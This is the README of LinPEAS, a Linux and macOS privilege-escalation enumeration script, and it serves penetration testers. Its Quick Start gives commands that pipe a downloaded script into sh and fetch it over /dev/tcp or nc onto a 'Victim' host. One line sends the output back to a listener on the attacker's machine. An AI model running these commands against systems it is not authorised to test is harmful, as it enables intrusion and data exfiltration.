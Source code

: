 # LinPEAS - Linux Privilege Escalation Awesome Script

[](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS#linpeas---linux-privilege-escalation-awesome-script)

[![](https://github.com/peass-ng/PEASS-ng/raw/master/linPEAS/images/linpeas.png)](https://github.com/peass-ng/PEASS-ng/raw/master/linPEAS/images/linpeas.png)

**LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)**

Check the **Local Linux Privilege Escalation checklist** from **[book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)**.

[![asciicast](https://camo.githubusercontent.com/6027e47793d4c2b5483498e6e48fa64346becd6301151f58a7ec6759f5a8b5f1/68747470733a2f2f61736369696e656d612e6f72672f612f3235303533322e706e67)](https://asciinema.org/a/309566)

## MacPEAS

[](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS#macpeas)

Just execute `linpeas.sh` in a MacOS system and the **MacPEAS version will be automatically executed**

## Quick Start

[](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS#quick-start)

Find the **latest versions of all the scripts and binaries in [the releases page](https://github.com/peass-ng/PEASS-ng/releases/latest)**.

```shell
# From github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```

```shell
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
